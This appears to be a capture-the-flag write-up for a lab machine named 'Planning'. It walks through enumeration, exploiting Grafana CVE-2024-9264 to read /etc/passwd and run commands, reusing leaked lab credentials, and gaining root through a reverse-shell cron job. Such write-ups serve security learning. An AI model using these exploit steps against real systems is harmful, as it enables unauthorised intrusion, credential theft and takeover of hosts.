

## Nmap Scan

```jsx
└─$ nmap -p 22,80 -sV -O -sC --min-rate=500 planning.htb -oN nmap_all

Starting Nmap 7.95 ( [https://nmap.org](https://nmap.org/) ) at 2025-06-12 08:50 EDT
Nmap scan report for planning.htb (10.10.11.68)
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 62:ff:f6:d4:57:88:05:ad:f4:d3:de:5b:9b:f8:50:f1 (ECDSA)
|_  256 4c:ce:7d:5c:fb:2d:a0:9e:9f:bd:f5:5c:5e:61:50:8a (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Edukate - Online Education Website
|_http-server-header: nginx/1.24.0 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.02 seconds
```

## Port 80 - Website


### Using gobuster to enumerate target

```jsx
─$ gobuster dir -u http://planning.htb -w /usr/share/wordlists/dirb/big.txt -t 150 -x php,html,txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://planning.htb
[+] Method:                  GET
[+] Threads:                 150
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/about.php            (Status: 200) [Size: 12727]
/contact.php          (Status: 200) [Size: 10632]
/course.php           (Status: 200) [Size: 10229]
/css                  (Status: 301) [Size: 178] [--> http://planning.htb/css/]                                                                          
/detail.php           (Status: 200) [Size: 13006]
/enroll.php           (Status: 200) [Size: 7053]
/img                  (Status: 301) [Size: 178] [--> http://planning.htb/img/]                                                                          
/index.php            (Status: 200) [Size: 23914]
/js                   (Status: 301) [Size: 178] [--> http://planning.htb/js/]                                                                           
/lib                  (Status: 301) [Size: 178] [--> http://planning.htb/lib/]                                                                          
Progress: 81876 / 81880 (100.00%)
===============================================================
Finished
===============================================================

```

## Using ffuf to enumerate VHOSTS using namelist wordlist

```
ffuf -u http://planning.htb -H "Host:FUZZ.planning.htb" -w /usr/share/seclists/Discovery/DNS/namelist.txt -fs 178 -t 100

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://planning.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/namelist.txt
 :: Header           : Host: FUZZ.planning.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 178
________________________________________________

grafana                 [Status: 302, Size: 29, Words: 2, Lines: 3, Duration: 86ms]
:: Progress: [151265/151265] :: Job [1/1] :: 1039 req/sec :: Duration: [0:03:16] :: Errors: 0 ::
```

Got `grafana` as a subdomain, and added it to /etc/hosts.

Then viewed the subdomain, and got a login page:- 


Used the creds gave in the machine description previously to login `admin:0D5oT70Fq13EvB5r`

```jsx
└─$ whatweb grafana.planning.htb
[http://grafana.planning.htb](http://grafana.planning.htb/) [302 Found] Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][nginx/1.24.0 (Ubuntu)], IP[10.10.11.68], RedirectLocation[/login], UncommonHeaders[x-content-type-options], X-Frame-Options[deny], X-XSS-Protection[1; mode=block], nginx[1.24.0]
[http://grafana.planning.htb/login](http://grafana.planning.htb/login) [200 OK] Country[RESERVED][ZZ], Grafana[11.0.0], HTML5, HTTPServer[Ubuntu Linux][nginx/1.24.0 (Ubuntu)], IP[10.10.11.68], Script[text/javascript], Title[Grafana], UncommonHeaders[x-content-type-options], X-Frame-Options[deny], X-UA-Compatible[IE=edge], X-XSS-Protection[1; mode=block], nginx[1.24.0]
```

The server is running `Grafana 11.0.0` .

Googling ‘Grafana 11.0.0 exploit’ gives us


# Exploiting CVE-2024-9264

**CVE-2024-9264**

## Grafana Post-Auth DuckDB SQL Injection (RCE, File Read)

Cloned the repo `https://github.com/nollium/CVE-2024-9264`

```jsx
└─$ python3 [CVE-2024-9264.py](http://cve-2024-9264.py/) -u admin -p 0D5oT70Fq13EvB5r -f /etc/passwd [http://grafana.planning.htb](http://grafana.planning.htb/)
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Reading file: /etc/passwd
[+] Successfully ran duckdb query:
[+] SELECT content FROM read_blob('/etc/passwd'):
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
grafana:x:472:0::/home/grafana:/usr/sbin/nologin
```

Using the exploit along with the `admin` creds, we got a remote file read vuln.

```jsx
└─$ python3 [CVE-2024-9264.py](http://cve-2024-9264.py/) -u admin -p 0D5oT70Fq13EvB5r -c "ls -la /" [http://grafana.planning.htb](http://grafana.planning.htb/)
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Executing command: ls -la /
[+] Successfully ran duckdb query:
[+] SELECT 1;install shellfs from community;LOAD shellfs;SELECT * FROM
read_csv('ls -la / >/tmp/grafana_cmd_output 2>&1 |'):
[+] Successfully ran duckdb query:
[+] SELECT content FROM read_blob('/tmp/grafana_cmd_output'):
total 64
drwxr-xr-x   1 root root 4096 Apr  4 10:23 .
drwxr-xr-x   1 root root 4096 Apr  4 10:23 ..
-rwxr-xr-x   1 root root    0 Apr  4 10:23 .dockerenv
lrwxrwxrwx   1 root root    7 Apr 27  2024 bin -> usr/bin
drwxr-xr-x   2 root root 4096 Apr 18  2022 boot
drwxr-xr-x   5 root root  340 Jun 13 05:56 dev
drwxr-xr-x   1 root root 4096 Apr  4 10:23 etc
drwxr-xr-x   1 root root 4096 May 14  2024 home
```

This is grafna instance is running inside a docker container.

Using [`LinEnum.sh`](http://LinEnum.sh) to enumerate the container.

(NOTE: Upload the script from your target machine using wget and hosting a web server on your attacking machine)

```jsx
[-] Environment information:
AWS_AUTH_SESSION_DURATION=15m
HOSTNAME=7ce659d667d7
PWD=/
AWS_AUTH_AssumeRoleEnabled=true
GF_PATHS_HOME=/usr/share/grafana
AWS_CW_LIST_METRICS_PAGE_LIMIT=500
HOME=/usr/share/grafana
AWS_AUTH_EXTERNAL_ID=
SHLVL=2
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
GF_SECURITY_ADMIN_USER=enzo
GF_PATHS_DATA=/var/lib/grafana
GF_PATHS_LOGS=/var/log/grafana
PATH=/usr/local/bin:/usr/share/grafana/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
OLDPWD=/tmp
GF_PATHS_PLUGINS=/var/lib/grafana/plugins
GF_PATHS_CONFIG=/etc/grafana/grafana.ini
_=/usr/bin/env
```

We got a user’s credentials!

`enzo:RioTecRANDEntANT!`

Using that to ssh into the machine, 


# Privilege Escalation

Run [`linpeas.sh`](http://linpeas.sh) on the target machine.


there’s a crontab.db file.

```jsx
enzo@planning:/opt/crontabs$ cat crontab.db
{"name":"Grafana backup","command":"/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz","schedule":"@daily","stopped":false,"timestamp":"Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740774983276,"saved":false,"_id":"GTI22PpoJNtRKg0W"}
{"name":"Cleanup","command":"/root/scripts/cleanup.sh","schedule":"* * * * *","stopped":false,"timestamp":"Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740849309992,"saved":false,"_id":"gNIRXh1WIc9K7BYX"}
```

This gives a password `P4ssw0rdS0pRi0T3c`, but it is not the password for any of the user accounts on the machine.

Enumerating further.


there’s a webserver running on port 8000

port forwarding it to our machine and viewing it

```jsx
─$ ssh -L 8000:localhost:8000 enzo@planning.htb
enzo@planning.htb's password:

```


Entering username as `root` and the password as `P4ssw0rdS0pRi0T3c`, logs us into the following screen


lets now setup a crontab which will spawn a revshell to our netcat listener:-


Executing the cronjob spawns the revshell, and gives us full access as `root`


`pwned`

## Learnings

- Use all wordlists when trying to bruteforce subdomains and directories
- Always google for exploits/CVEs if you know version no.s of software; you never know when you might strike gold
- [`linenum.sh`](http://linenum.sh) is underrated
- Always go through the output of [`linpeas.sh`](http://linpeas.sh) carefully while searching for privesc vectors
- Examine connections on ports, while viewing active processes.